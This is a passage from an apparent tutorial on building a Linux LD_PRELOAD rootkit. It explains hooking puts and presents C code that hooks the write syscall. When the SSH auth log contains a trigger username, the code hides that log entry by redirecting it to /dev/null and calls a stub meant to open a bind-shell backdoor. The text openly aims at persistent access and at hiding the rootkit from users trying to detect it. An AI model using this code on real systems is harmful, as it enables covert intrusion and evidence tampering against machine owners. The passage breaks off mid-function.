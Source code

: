Since our library is loaded before libc, any program calling `printf`, and by extension `puts`, will actually be calling our `puts` function. This means that any program on the entire system that wants to print "cat" to stdout, will actually end up printing "dog" instead. Critically, however, any call to puts that isn't literally printing "cat" is left completely untouched. 

While this example is relatively innocuous, it gives us a glimpse into the potential host of features we could develop. Not only can it be used to arbitrarily execute code, but it can also be used to cover up evidence of the rootkit entirely as we can control exactly what the operating system is telling the user. The user could be attempting to detect the rootkit and the OS could be screaming for help, but we can easily redirect those calls for help into the void, leading the user into a false sense of security. 

> Note that this program will only replace **exactly** the message "cat" with the message "dog". If someone writes "I like cats", it will still print "I like cats" since `strcmp` checks for an exact match with "cat". Qualities like this are actually rather important when it comes to designing a rootkit since all the global `puts` traffic will be routed through your function, and the vast majority of traffic shouldn't trigger your rootkit features to preserve discretion.

#### Trigger Mechanism

For our rootkits, the goal was to gain persistent access to a machine. To achieve this, you need to open some sort of backdoor shell on command. This requires a built-in trigger mechanism to open a shell.

In our case, we are looking to attack a Linux machine that presumably has SSH installed. While there are many ways of implementing this, we again took *heavy* inspiration from the aforementioned blog post. Specifically, the ssh feature we aimed to exploit was the logging mechanism.

Every time that a user attempts to connect to a machine on ssh, the ssh daemon logs the attempt along with the username and some other information to `/var/log/auth.log`. Critically this information is logged whether the attempt is successful or not and the SSH daemon uses the `write` system call to write to the file.

We can leverage this feature and hook the write system call to trigger a shell when a user attempts to log in with a specific username. This is great as it will only trigger if a user attempts to log in with a trigger username. In all other cases SSH will function normally.

Here is the code for the trigger.

```c
#define TRIGGER_USERNAME "joebruin"

void start_bind4()
{
	/* Filled in with bind shell code later on */
}

/* Function definition matching that of the write syscall */
ssize_t write(int fildes, const void *buf, size_t nbytes) {
	ssize_t (*real_write) (int fildes, const void *buf, size_t nbytes);
	ssize_t result;

	real_write = dlsym(RTLD_NEXT, "write");

	/* Continue normally if message doesn't contain trigger */
	if (strstr(buf, TRIGGER_USERNAME) == NULL) {
		return real_write(fildes, buf, nbytes);
	}

	/* write original bytes to /dev/null to hide output from log */
	fildes = open("/dev/null", O_WRONLY | O_APPEND);
	result = real_write(fildes, buf, nbytes);

	/* Open the bind shell backdoor */
	start_bind4();

	return result;
```